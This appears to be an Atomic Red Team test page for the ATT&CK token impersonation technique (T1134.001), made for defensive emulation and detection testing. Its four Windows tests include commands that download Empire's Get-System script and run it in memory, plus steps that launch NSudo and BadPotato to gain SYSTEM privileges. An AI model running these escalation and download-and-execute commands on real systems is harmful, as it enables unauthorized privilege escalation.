 # T1134.001 - Access Token Manipulation: Token Impersonation/Theft
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/001)
<blockquote>Adversaries may duplicate then impersonate another user's existing token to escalate privileges and bypass access controls. For example, an adversary can duplicate an existing token using `DuplicateToken` or `DuplicateTokenEx`. The token can then be used with `ImpersonateLoggedOnUser` to allow the calling thread to impersonate a logged on user's security context, or with `SetThreadToken` to assign the impersonated token to a thread.

An adversary may perform [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) when they have a specific, existing process they want to assign the duplicated token to. For example, this may be useful for when the target user has a non-network logon session on the system.

When an adversary would instead use a duplicated token to create a new process rather than attaching to an existing process, they can additionally [Create Process with Token](https://attack.mitre.org/techniques/T1134/002) using `CreateProcessWithTokenW` or `CreateProcessAsUserW`. [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) is also distinct from [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) in that it refers to duplicating an existing token, rather than creating a new one.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Named pipe client impersonation](#atomic-test-1---named-pipe-client-impersonation)

- [Atomic Test #2 - `SeDebugPrivilege` token duplication](#atomic-test-2---sedebugprivilege-token-duplication)

- [Atomic Test #3 - Launch NSudo Executable](#atomic-test-3---launch-nsudo-executable)

- [Atomic Test #4 - Bad Potato](#atomic-test-4---bad-potato)


<br/>

## Atomic Test #1 - Named pipe client impersonation
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script creates a named pipe, and a service that writes to that named pipe. When the service connects to the named pipe, the script impersonates its security context.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

Reference: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

**Supported Platforms:** Windows


**auto_generated_guid:** 90db9e27-8e7c-4c04-b602-a45927884966






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
```






<br/>
<br/>

## Atomic Test #2 - `SeDebugPrivilege` token duplication
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script uses `SeDebugPrivilege` to obtain, duplicate and impersonate the token of a another process.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

**Supported Platforms:** Windows


**auto_generated_guid:** 34f0a430-9d04-4d98-bcb5-1989f14719f0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
```






<br/>
<br/>

## Atomic Test #3 - Launch NSudo Executable
Launches the NSudo executable for a short period of time and then exits.
NSudo download observed after maldoc execution. NSudo is a system management tool for advanced users to launch programs with full privileges.

**Supported Platforms:** Windows


**auto_generated_guid:** 7be1bc0f-d8e5-4345-9333-f5f67d742cb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nsudo_path | Path to the NSudoLG.exe file | path | PathToAtomicsFolder&#92;T1134.001&#92;bin&#92;NSudoLG.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-Process "#{nsudo_path}" -Argument "-U:T -P:E cmd"
Start-Sleep -Second 5
Stop-Process -Name "cmd" -force -erroraction silentlycontinue
```




#### Dependencies:  Run with `powershell`!
##### Description: NSudoLG.exe must exist in the specified path #{nsudo_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{nsudo_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" "https://github.com/M2Team/NSudo/releases/download/8.2/NSudo_8.2_All_Components.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components" -Force
Copy-Item "PathToAtomicsFolder\T1134.001\bin\NSudoLG.exe" "#{nsudo_path}"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" -Recurse -ErrorAction Ignore
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components" -Recurse -ErrorAction Ignore
```




<br/>
<br/>

## Atomic Test #4 - Bad Potato
https://github.com/BeichenDream/BadPotato
Privilege escalation using named pipe connections

**Supported Platforms:** Windows


**auto_generated_guid:** 9c6d799b-c111-4749-a42f-ec2f8cb51448






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
Start-Process .\BadPotato.exe notepad.exe
Start-Sleep -Second 20
Stop-Process -Name "notepad" -force -erroraction silentlycontinue
Stop-Process -Name "BadPotato" -force -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
taskkill /f /im notepad.exe
```



#### Dependencies:  Run with `powershell`!
##### Description: BadPotato.exe must exist in the temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\BadPotato.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\BadPotato.exe" "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1134.001/bin/BadPotato.exe?raw=true"
```




<br/>
